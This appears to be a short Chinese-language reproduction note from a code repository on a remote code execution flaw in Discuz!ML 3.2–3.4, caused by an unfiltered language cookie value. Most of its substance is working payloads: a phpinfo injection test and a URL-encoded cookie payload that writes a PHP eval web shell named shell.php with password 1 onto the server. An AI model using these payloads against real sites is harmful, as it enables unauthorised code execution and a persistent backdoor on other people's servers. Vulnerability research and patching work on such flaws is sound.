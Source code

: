 ```yaml
---
title: "Discuz！ML 3.x代码执行漏洞"
id: zhfly2880
---
```


# Discuz!ML 3.x 代码执行漏洞

## 一、漏洞简介

漏洞类型：代码执行漏洞
漏洞原因：Discuz!ML 系统对cookie中的l接收的language参数内容未过滤，导致字符串拼接，从而执行php代码。

## 二、影响范围

*   Discuz!ML V3.2-3.4

## 三、复现过程

cookie字段中会出现xxxx_xxxx_language字段，根本原因就是这个字段存在注入，导致的RCE
抓包找到cookie的language的值修改为

```
xxxx_xxxx_language=sc'.phpinfo().' 
```

getshell

```
%27.%2Bfile_put_contents%28%27shell.php%27%2Curldecode%28%27%253C%253Fphp%2520eval%2528%2524_POST%255B%25221%2522%255D%2529%253B%253F%253E%27%29%29.%27 
```

实际为：

```
'.+file_put_contents('shell.php',urldecode('<?php eval($_POST["1"]);?>')).' 
```

即可在路径下生成shell.php，连接密码为1

## https://github.com/ianxtianxt/discuz-ml-rce